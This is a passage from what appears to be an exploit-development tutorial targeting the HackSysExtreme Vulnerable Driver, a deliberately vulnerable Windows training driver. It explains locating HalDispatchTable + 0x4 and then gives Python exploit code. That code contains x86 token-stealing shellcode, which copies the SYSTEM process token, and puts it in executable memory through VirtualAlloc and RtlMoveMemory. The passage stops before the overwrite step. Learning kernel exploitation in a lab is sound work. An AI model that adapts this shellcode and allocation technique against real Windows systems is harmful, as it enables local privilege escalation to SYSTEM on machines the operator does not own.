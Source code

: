 `GetProcAddress()` will reveal to us the address of the HalDispatchTable and HalDispatchTable + 0x4. We are more interested in HalDispatchTable + 0x4.

Once we have the address for HalDispatchTable + 0x4, we can weaponize our exploit:

```python
# HackSysExtreme Vulnerable Driver Kernel Exploit (Arbitrary Overwrite)
# Author: Connor McGarr

import struct
import sys
import os
from ctypes import *
from subprocess import *

# DLLs for Windows API interaction
kernel32 = windll.kernel32
ntdll = windll.ntdll
psapi = windll.Psapi

class WriteWhatWhere(Structure):
    _fields_ = [
        ("What", c_void_p),
        ("Where", c_void_p)
    ]

payload = bytearray(
    "\x90\x90\x90\x90"                # NOP sled
    "\x60"                            # pushad
    "\x31\xc0"                        # xor eax,eax
    "\x64\x8b\x80\x24\x01\x00\x00"    # mov eax,[fs:eax+0x124]
    "\x8b\x40\x50"                    # mov eax,[eax+0x50]
    "\x89\xc1"                        # mov ecx,eax
    "\xba\x04\x00\x00\x00"            # mov edx,0x4
    "\x8b\x80\xb8\x00\x00\x00"        # mov eax,[eax+0xb8]
    "\x2d\xb8\x00\x00\x00"            # sub eax,0xb8
    "\x39\x90\xb4\x00\x00\x00"        # cmp [eax+0xb4],edx
    "\x75\xed"                        # jnz 0x1a
    "\x8b\x90\xf8\x00\x00\x00"        # mov edx,[eax+0xf8]
    "\x89\x91\xf8\x00\x00\x00"        # mov [ecx+0xf8],edx
    "\x61"                            # popad
    "\x31\xc0"                        # xor eax, eax (restore execution)
    "\x83\xc4\x24"                    # add esp, 0x24 (restore execution)
    "\x5d"                            # pop ebp
    "\xc2\x08\x00"                    # ret 0x8
)

# Defeating DEP with VirtualAlloc. Creating RWX memory, and copying our shellcode in that region.
print "[+] Allocating RWX region for shellcode"
ptr = kernel32.VirtualAlloc(
    c_int(0),                         # lpAddress
    c_int(len(payload)),              # dwSize
    c_int(0x3000),                    # flAllocationType
    c_int(0x40)                       # flProtect
)

# Creates a ctype variant of the payload (from_buffer)
c_type_buffer = (c_char * len(payload)).from_buffer(payload)

print "[+] Copying shellcode to newly allocated RWX region"
kernel32.RtlMoveMemory(
    c_int(ptr),                       # Destination (pointer)
    c_type_buffer,                    # Source (pointer)
    c_int(len(payload))               # Length
)
```